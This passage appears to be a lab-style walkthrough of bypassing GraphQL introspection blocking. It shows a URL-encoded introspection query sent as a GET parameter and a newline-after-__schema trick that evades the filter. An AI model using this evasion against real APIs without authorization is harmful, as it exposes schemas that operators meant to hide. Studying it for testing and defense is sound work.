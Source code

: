 And is only useable with GET requests and not POST, (for now)
And the response confirms that this is a GraphQL endpoint
```
{
  "data": {
    "__schema": {
      "queryType": {
        "name": "query"
      }
    }
  }
}
```

**Now need to find a way to bypass the introspection defenses**

1. Send a new request with a URL-encoded introspection query as a query parameter.
To do this, right-click the request and select **GraphQL > Set introspection query**:

**The query**
```
/api?query=query IntrospectionQuery {
  __schema {
    queryType {
      name
    }
    mutationType {
      name
    }

```

URL Encoded as a query in the URL
```HTTP
/api?query=query+IntrospectionQuery+%7B%0A++__schema+%7B%0A++++queryType+%7B%0D%0A++++++name%0D%0A++++%7D%0D%0A++++mutationType+%7B%0D%0A++++++name%0D%0A++++%7D%0D%0A++++subscriptionType+%7B%0D%0A++++++name%0D%0A++++%7D%0D%0A++++types+%7B%0D%0A++++++...FullType%0D%0A++++%7D%0D%0A++++directives+%7B%0D%0A++++++name%0D%0A++++++description%0D%0A++++++args+%7B%0D%0A++++++++...InputValue%0D%0A++++++%7D%0D%0A++++%7D%0D%0A++%7D%0D%0A%7D%0D%0A%0D%0Afragment+FullType+on+__Type+%7B%0D%0A++kind%0D%0A++name%0D%0A++description%0D%0A++fields%28includeDeprecated%3A+true%29+%7B%0D%0A++++name%0D%0A++++description%0D%0A++++args+%7B%0D%0A++++++...InputValue%0D%0A++++%7D%0D%0A++++type+%7B%0D%0A++++++...TypeRef%0D%0A++++%7D%0D%0A++++isDeprecated%0D%0A++++deprecationReason%0D%0A++%7D%0D%0A++inputFields+%7B%0D%0A++++...InputValue%0D%0A++%7D%0D%0A++interfaces+%7B%0D%0A++++...TypeRef%0D%0A++%7D%0D%0A++enumValues%28includeDeprecated%3A+true%29+%7B%0D%0A++++name%0D%0A++++description%0D%0A++++isDeprecated%0D%0A++++deprecationReason%0D%0A++%7D%0D%0A++possibleTypes+%7B%0D%0A++++...TypeRef%0D%0A++%7D%0D%0A%7D%0D%0A%0D%0Afragment+InputValue+on+__InputValue+%7B%0D%0A++name%0D%0A++description%0D%0A++type+%7B%0D%0A++++...TypeRef%0D%0A++%7D%0D%0A++defaultValue%0D%0A%7D%0D%0A%0D%0Afragment+TypeRef+on+__Type+%7B%0D%0A++kind%0D%0A++name%0D%0A++ofType+%7B%0D%0A++++kind%0D%0A++++name%0D%0A++++ofType+%7B%0D%0A++++++kind%0D%0A++++++name%0D%0A++++++ofType+%7B%0D%0A++++++++kind%0D%0A++++++++name%0D%0A++++++%7D%0D%0A++++%7D%0D%0A++%7D%0D%0A%7D%0D%0A
```

2. Response says introspection disallowed
3. Modify the query to **include a newline character after `__schema` and resend.
```
  __schema
 {
    queryType {
```
VS
```
__schema {
    queryType {
```
